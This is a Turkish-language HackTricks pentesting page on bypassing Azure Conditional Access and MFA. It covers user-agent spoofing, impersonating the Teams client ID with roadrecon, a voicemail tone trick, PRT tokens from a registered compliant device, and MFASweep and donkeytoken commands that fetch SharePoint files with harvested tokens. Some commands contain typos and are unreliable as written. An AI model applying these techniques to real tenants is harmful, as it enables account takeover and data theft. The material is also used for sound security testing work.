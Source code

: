 # Az - Koşullu Erişim Politikaları / MFA Atlatma

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **Bize katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **bizi** **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Temel Bilgiler

Azure Koşullu Erişim politikaları, belirli **koşullara** dayalı olarak Azure hizmetlerine ve uygulamalarına erişim kontrollerini uygulamak için Microsoft Azure'da kurulan kurallardır. Bu politikalar, organizasyonların doğru koşullar altında doğru erişim kontrollerini uygulayarak kaynaklarını güvence altına almasına yardımcı olur.\
Koşullu erişim politikaları temelde **Kim**'in **Neyi** **Nereden** ve **Nasıl** erişebileceğini **tanımlar**.

İşte birkaç örnek:

1. **Oturum Açma Risk Politikası**: Bu politika, bir oturum açma riski tespit edildiğinde çok faktörlü kimlik doğrulama (MFA) gerektirecek şekilde ayarlanabilir. Örneğin, bir kullanıcının oturum açma davranışı, farklı bir ülkeden oturum açmak gibi, normal desenine kıyasla alışılmadıksa, sistem ek kimlik doğrulama talep edebilir.
2. **Cihaz Uygunluk Politikası**: Bu politika, yalnızca organizasyonun güvenlik standartlarına uygun cihazların Azure hizmetlerine erişimini kısıtlayabilir. Örneğin, yalnızca güncel antivirüs yazılımına sahip veya belirli bir işletim sistemi sürümünü çalıştıran cihazlardan erişime izin verilebilir.

## Koşullu Erişim Politikası Atlatmaları

Bir koşullu erişim politikasının **kolayca manipüle edilebilecek bazı bilgileri kontrol etmesi mümkündür, bu da politikanın atlatılmasına olanak tanır**. Örneğin, politika MFA'yı yapılandırıyorsa, saldırgan bunu atlatabilecektir.

### Cihaz Platformları - Cihaz Koşulu

**Cihaz platformuna** (Android, iOS, Windows, macOS) dayalı bir koşul ayarlamak mümkündür, ancak bu **kullanıcı aracısı** (user-agent) temelinde olduğu için atlatılması oldukça kolaydır. Tüm seçenekleri MFA'yı zorunlu kılacak şekilde ayarlasanız bile, **tanımadığı bir kullanıcı aracısı** kullanırsanız MFA'yı atlatabilirsiniz.

### Lokasyonlar: Ülkeler, IP aralıkları - Cihaz Koşulu

Elbette, bu koşullu politikada ayarlanmışsa, bir saldırgan sadece **izin verilen ülkede** bir **VPN** kullanabilir veya bu koşulları atlatmak için **izin verilen bir IP adresinden** erişim sağlamanın bir yolunu bulmaya çalışabilir.

### Office365 İstemci Uygulamaları

Eğer istemcilerin **Office 365 uygulamalarına tarayıcıdan erişim sağlarken MFA'ya ihtiyaç duyduğunu** belirtebilirsiniz:

<figure><img src="../../../.gitbook/assets/image (318).png" alt=""><figcaption></figcaption></figure>

Bunu atlatmak için, bir masaüstü uygulamasından (aşağıdaki örnekte Microsoft Teams gibi) bir uygulamaya giriş yapıyormuş gibi davranmak mümkündür; bu da korumayı atlatacaktır:
```bash
roadrecon auth -u user@email.com -r https://outlook.office.com/ -c 1fec8e78-bce4-4aaf-ab1b-5451cc387264 --tokrns-stdout

<token>
```
Microsoft Teams uygulaması birçok izne sahip olduğundan, bu erişimi kullanabileceksiniz.

{% hint style="success" %}
Önceden tanımlanmış Office365 izinlerine sahip daha fazla genel uygulamanın I**D'sini** roadtools veritabanında bulabilirsiniz:

{% code overflow="wrap" %}
```sql
SELECT appId, displayName FROM ApplicationRefs WHERE publicCLient = 1 ORDER BY displayName ASC
```
{% endcode %}
{% endhint %}

Bu saldırı özellikle ilginçtir çünkü varsayılan olarak, kamuya açık Office365 uygulamaları bazı verilere erişim iznine sahip olacaktır.

### Diğer uygulamalar

Varsayılan olarak, kullanıcılar tarafından oluşturulan diğer uygulamalar izinlere sahip olmayacak ve özel olabilir.\
Ancak, kullanıcılar ayrıca bazı **izinler** veren **kamuya açık** **uygulamalar** oluşturabilirler.

Bir politikanın **bir uygulamaya erişim için MFA gerektirecek şekilde ayarlandığı** potansiyel bir senaryo, kullanıcı bir **tarayıcı** kullanıyorsa (belki de bir web uygulaması olduğu için ve dolayısıyla tek yol bu olacaktır), eğer bir **proxy uygulama** -kullanıcılar adına diğer uygulamalarla **etkileşimde bulunmasına izin verilen bir uygulama**- varsa, kullanıcı **proxy uygulamasında oturum açabilir** ve ardından bu proxy uygulaması aracılığıyla **ilk başta MFA korumalı uygulamaya oturum açabilir**.

[**Invoke-MFASweep**](az-conditional-access-policies-mfa-bypass.md#invoke-mfasweep) ve [**donkeytoken**](az-conditional-access-policies-mfa-bypass.md#donkeytoken) tekniklerini kontrol edin.

## Diğer Az MFA Atlatmaları

### Zil sesi

Bir Azure MFA seçeneği, **yapılandırılmış telefon numarasına bir çağrı almak** ve kullanıcıdan **`#` karakterini göndermesini istemektir**.

{% hint style="danger" %}
Karakterler sadece **tonlar** olduğundan, bir saldırgan **sesli mesaj** ile telefon numarasının **sesli mesaj** kaydını ele geçirebilir, mesaj olarak **`#` tonunu** ayarlayabilir ve ardından MFA talep edildiğinde **kurbanın telefonunun meşgul olduğundan emin olabilir** (aramak suretiyle) böylece Azure çağrısı sesli mesaja yönlendirilir.
{% endhint %}

### Uyumlu Cihazlar

Politikalar genellikle uyumlu bir cihaz veya MFA talep eder, bu nedenle bir **saldırgan uyumlu bir cihaz kaydedebilir**, bir **PRT** token alabilir ve **bu şekilde MFA'yı atlayabilir**.

Öncelikle **Intune'da uyumlu bir cihaz kaydederek** başlayın, ardından **PRT'yi** almak için:
```powershell
$prtKeys = Get-AADIntuneUserPRTKeys - PfxFileName .\<uuid>.pfx -Credentials $credentials

$prtToken = New-AADIntUserPRTToken -Settings $prtKeys -GertNonce

Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken

<token returned>
```
Aşağıdaki sayfada bu tür bir saldırı hakkında daha fazla bilgi bulabilirsiniz:

{% content-ref url="../az-lateral-movement-cloud-on-prem/pass-the-prt.md" %}
[pass-the-prt.md](../az-lateral-movement-cloud-on-prem/pass-the-prt.md)
{% endcontent-ref %}

## Araçlar

### [roadrecon](https://github.com/dirkjanm/ROADtools)

Tüm politikaları alın
```bash
roadrecon plugin policies
```
### [Invoke-MFASweep](https://github.com/dafthack/MFASweep)

MFASweep, sağlanan bir kimlik bilgileri setini kullanarak **çeşitli Microsoft hizmetlerine giriş yapmayı deneyen ve MFA'nın etkin olup olmadığını belirlemeye çalışan bir PowerShell betiğidir**. Koşullu erişim politikaları ve diğer çok faktörlü kimlik doğrulama ayarlarının nasıl yapılandırıldığına bağlı olarak bazı protokoller tek faktörlü kalabilir. Ayrıca, ADFS yapılandırmaları için ek bir kontrol içerir ve tespit edilirse yerel ADFS sunucusuna giriş yapmayı deneyebilir.
```bash
Invoke-MFASweep -Username <username> -Password <pass>
```
### [donkeytoken](https://github.com/silverhack/donkeytoken)

Donkey token, Koşullu Erişim Politikalarını doğrulamak, 2FA etkinleştirilmiş Microsoft portalları için testler yapmak gibi ihtiyaçları olan güvenlik danışmanlarına yardımcı olmayı amaçlayan bir dizi işlevdir.
```powershell
Import-Module 'C:\Users\Administrador\Desktop\Azure\Modulos ps1\donkeytoken' -Force
```
**Her bir portalı test edin** eğer **MFA olmadan giriş yapmak mümkünse**:
```powershell
Test-MFA -credential $cred -Verbose -Debug -InformationAction Continue
```
Çünkü **Azure** **portalı** **kısıtlanmamıştır**, önceki yürütme tarafından tespit edilen herhangi bir hizmete erişmek için portal uç noktasından **bir token toplamak** mümkündür. Bu durumda Sharepoint tanımlandı ve ona erişmek için bir token talep edildi:

{% code overflow="wrap" %}
```powershell
$token = Get-DelegationTokenFromAzurePortal -credential $cred -token_type microsoft.graph -extension_type Microsoft_Intune
Read-JWTtoken -token $token.access_token
```
{% endcode %}

Diyelim ki token, Sites.Read.All (Sharepoint'tan) iznine sahip. MFA nedeniyle web üzerinden Sharepoint'a erişemeseniz bile, oluşturulan token ile dosyalara erişmek için token'ı kullanmak mümkündür:
```powershell
$data = Get-SharePointFilesFromGraph -authentication $token $data[0].downloadUrl
```
## Referanslar

* [https://www.youtube.com/watch?v=yOJ6yB9anZM\&t=296s](https://www.youtube.com/watch?v=yOJ6yB9anZM\&t=296s)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
